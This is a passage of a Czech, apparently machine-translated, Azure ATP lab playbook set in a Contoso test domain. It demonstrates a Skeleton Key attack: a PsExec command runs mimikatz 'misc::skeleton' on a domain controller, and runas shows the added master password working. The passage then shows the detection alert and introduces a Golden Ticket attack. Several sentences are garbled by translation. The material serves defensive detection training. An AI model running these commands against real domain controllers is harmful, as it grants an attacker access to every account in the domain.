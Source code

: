 2. S **mimikatz** nyní připraveny na řadiči domény, vzdálené spuštění ho pomocí nástroje PsExec:

   ``` cmd
   PsExec.exe \\ContosoDC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "misc::skeleton" ^& "exit")
   ```

3. Úspěšně opraven v procesu služby LSASS **ContosoDC**.

   ![Útoku typu Skeleton Key přes nástroj mimikatz](media/playbook-dominance-skeletonkey.png)

### <a name="exploiting-the-skeleton-key-patched-lsass"></a>Služba LSASS využívajícím Skeleton Key opravit.

Na **VictimPC**, otevřete příkazový řádek (v rámci **JeffL**), spuštěním následujících příkazů zkuste stát kontext RonHD.

``` cmd
runas /user:ronhd@contoso.azure "notepad"
```

Po zobrazení výzvy použijte záměrně chybné heslo. Tato akce prokáže, že účet *stále* má heslo po provedení útoku.  

![Použití * hesla chybná * po útoku typu Skeleton Key (Tato metoda funguje přesně tak, jak je popsáno)](media/playbook-dominance-skeletonkey_wrong.png)

Ale Skeleton Key přidá další heslo pro každý účet. Proveďte příkaz "Spustit jako" znovu, ale tato doba použití "nástroj mimikatz" jako heslo.

``` cmd
runas /user:ronhd@contoso.azure "notepad"
```

Tento příkaz vytvoří nový proces, *Poznámkový blok*, běží v kontextu RonHD. **Skeleton Key lze provést _jakékoli_ účtu, včetně účtů služeb a účtů počítačů.**

> [!Important]
> Je důležité, restartujte ContosoDC po provedení útoku typu Skeleton Key. Aniž by tak proces LSASS.exe počítači ContosoDC opravit, který se změnil, downgradu každý požadavek na ověření do RC4.

### <a name="skeleton-key-attack-detection-in-azure-atp"></a>Útoku typu Skeleton Key detekce v Azure ATP

Co ochrana ATP v programu Azure zjišťování a hlášení a to vše se děje?

![Zjištěný AATP útoku typu Skeleton Key](media/playbook-dominance-skeletonkey_detected.png)

Ochrana ATP v programu Azure se úspěšně zjistilo podezřelé předběžné ověření šifrování metodou pro tohoto uživatele.

### <a name="golden-ticket---existing-user"></a>Zlatý lístek - existujícího uživatele

Po krádeži "Zlatých lístků" ("krbtgt" účet vysvětlení [zde prostřednictvím škodlivou replikaci](#malicious-replication), útočník se moct přihlásit lístky *jako v případě, že jsou řadiče domény*. **Nástroj Mimikatz**, identifikátor SID domény a účet odcizeného "krbtgt" jsou všechny požadované k provedení tohoto útoku. Nejenže jsme generování lístků pro uživatele, budeme vytvářet lístky pro uživatele, kteří ještě neexistují.
